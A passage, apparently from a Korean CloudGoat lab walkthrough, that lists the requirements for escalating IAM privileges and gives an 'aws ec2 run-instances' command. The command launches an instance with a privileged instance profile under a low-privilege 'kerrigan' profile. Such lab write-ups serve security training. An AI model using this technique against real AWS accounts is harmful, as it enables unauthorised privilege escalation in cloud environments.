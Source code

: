 ```json
1. 대상 EC2 인스턴스와 동일한 서브넷
2. SSH 액세스를 허용하는 보안 그룹
3. SSH 인증을 위한 SSH 키 쌍으로 새로 생성
4. cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu 인스턴스 프로필 연결

aws ec2 run-instances \
    --image-id ami-0a313d6098716f372 \
    --instance-type t2.micro \
    --iam-instance-profile Arn=arn:aws:iam::712987748923:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu \
    --key-name fake-ec2 \
    --subnet-id subnet-04d05182b53c1ff11 \
    --security-group-ids sg-04ffcf8e873ee2103 \
    --region us-east-1 \
    --profile kerrigan

arn:aws:iam::712987748923:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu
```

![](./13.png)
